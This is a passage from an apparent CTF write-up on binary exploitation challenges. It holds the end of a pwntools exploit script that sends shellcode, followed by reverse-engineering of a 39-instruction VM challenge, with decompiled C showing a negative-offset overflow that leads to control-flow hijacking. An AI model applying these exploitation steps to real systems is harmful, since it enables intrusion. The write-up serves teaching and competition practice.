 ```python
    ru(b"input: ")
    sl(shellcode)
    ru(b"return value: ")
    data = chr(int(rl()))
    io.close()
    ans += data
    print(ans)
```

The results are as follows:

![[static/b01lers-wp-fig5.png]]

---
### mixtpeailbc

#vm

It's a somewhat cumbersome virtual machine with 39 instructions, including memory operations, calculations, and output. However, I've encountered many cumbersome VM PWNs in domestic competitions, so settling down to reverse-engineer it felt manageable.
#### Analysis

At the very beginning, I noticed the output function by searching the references of `putchar`, then I decided to reverse the VM instruction's structure from that output function. However, after sending a `p32(0xdeadbeef)` I noticed my offset became negative. After debugging in gdb, I identified that this function has a negative overflow issue:

```c
__int64 __fastcall get_p16_arg(__int64 a1, unsigned int a2)
{
  unsigned __int8 middle_byte; // [rsp+1Eh] [rbp-2h]

  middle_byte = get_HIWORD(a2);
  return *(_QWORD *)(a1 + 8 * (middle_byte + 0x26LL) + 8) + (char)get_HIBYTE(a2);
}
```

However, there is an overflow check after the output function. I further searched for other cross-references to the `get_p16_arg` function and then got this one, which leads to control-flow-hijacking:

```c
void __fastcall sub_1850(__int64 a1, unsigned int a2)
{
  unsigned __int64 i; // [rsp+18h] [rbp-158h]
  unsigned __int64 j; // [rsp+20h] [rbp-150h]
  __int64 v4; // [rsp+28h] [rbp-148h]
  __int64 v5[39]; // [rsp+30h] [rbp-140h]
  unsigned __int64 v6; // [rsp+168h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v4 = get_p16_arg(a1, a2) + 0x930 + a1 + 8;
  for ( i = 0LL; i <= 0x26; ++i )
    v5[i] = *(_QWORD *)(a1 + 8 * i);
  for ( j = 0LL; j <= 0x26; ++j )
    *(_QWORD *)(a1 + 8 * j) = v5[*(unsigned __int8 *)(v4 + j)];
  next_i(a1);
}
```

